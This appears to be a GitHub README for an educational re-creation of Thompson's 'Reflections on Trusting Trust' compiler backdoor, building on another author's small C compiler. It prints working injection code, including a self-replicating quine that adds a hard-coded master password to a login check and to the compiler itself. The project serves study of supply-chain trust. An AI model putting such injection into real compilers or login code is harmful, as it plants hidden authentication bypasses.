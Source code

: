 Based on Ken Thompsons 1984 AM Turing Award Speech, "Reflections on Trusting Trust"  

This project is split into 3 steps:
1. Directly modifying login.c source code with a backdoor
2. Modifying the compiler to inject a backdoor into login.c during comptime
3. Modifying the compiler to inject a backdoor into itself during comptime, to inject the backdoor into login.c. This makes the backdoor undetectable, even with login.c and the compiler source code. 

Thank you @Rui314 for the C compiler source code. All I did was make the backdoor modifications. 

# Part 1
```bash
./1.sh
```
Creates a backdoor into the `login.c` code. Very easy to catch.

# Part 2
```bash
./2.sh
```
Creates a backdoor into the c compiler compiling `login.c`. This finds and replaces the line for logging in, with a backdoored version. 
```python
def read_file (file) {
  ...
  before = "if password == actual_password {"
  after  = "if password == actual_password or password == 'archer_was_here' {"
  for line in lines:
    if line == before:
      line = after
  ...
}
```

# Part 3
I strongly recommend reading Ken Thompson's speech, "Reflections on Trusting Trust", to gain insight into the underlying concepts of this project.

In this part, I've implemented a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)#:~:text=A%20quine%20is%20a%20fixed,consequence%20of%20Kleene's%20recursion%20theorem.) in the function read_file within [./3/tokenize.c:read_file](./3/tokenize.c). This Quine performs two primary functions:

1. It detects when tokenize.c is being compiled and automatically injects backdoor code into it.
2. It similarly detects when login.c is being compiled and injects the same backdoor code.
   
The complexity of this task lies in the precise injection of backdoor code into the compiler—achieved by designing the Quine to do exactly that. As a result, any compiler that is compiled with a backdoored version of this compiler will also contain the backdoor. The intriguing aspect of this backdoor is its self-replicating nature: even if you remove the original backdoored code, the binaries produced by it will perpetuate the backdoor indefinitely, much like a virus.  

Below is the exact code used for injection demoed in `quine_noprint.c`:
```c
int main() {
    char* line = ...
    int i = ...;
    FILE* out = ...;
    char* lines[] = ...;
    
    char* inj_point = "  int num_lines = read_lines_to_array(fp, &lines);\n";
    char* before = "\tif (strcmp(passwords[user_index], password) == 0) {\n";
    char* after = "\tif (strcmp(passwords[user_index], password) == 0 || strcmp(\"archer_was_here\", password) == 0) {\n";
    if (strcmp(line, before) == 0) { // Replacement
        line = after;
    }
    if (i>=3 && strcmp(lines[i-3], inj_point) == 0) { // Injection
        char b[2048];
        char* f = "char* inj_point = %c  int num_lines = read_lines_to_array(fp, &lines);%cn%c;   char* before = %c%cif (strcmp(passwords[user_index], password) == 0) {%cn%c    ;   char* after = %c%cif (strcmp(passwords[user_index], password) == 0 || strcmp(%c%carcher_was_here%c%c, password) == 0) {%cn%c   ;   if (strcmp(line, before) == 0) {line=after;};  if (i >= 3 && strcmp(lines[i-3], inj_point) == 0) { char b[2048] ; char* f = %c%s%c ; sprintf(b, f, 34, 92, 34, 34, 9, 92, 34, 34, 9, 92, 34, 92, 34, 92, 34, 34, f, 34); fwrite(b, strlen(b), 1, out);  }";
        sprintf(b, f, 34, 92, 34, 34, 9, 92, 34, 34, 9, 92, 34, 92, 34, 92, 34, 34, f, 34);
        fwrite(b, strlen(b), 1, out);
    }
}
```
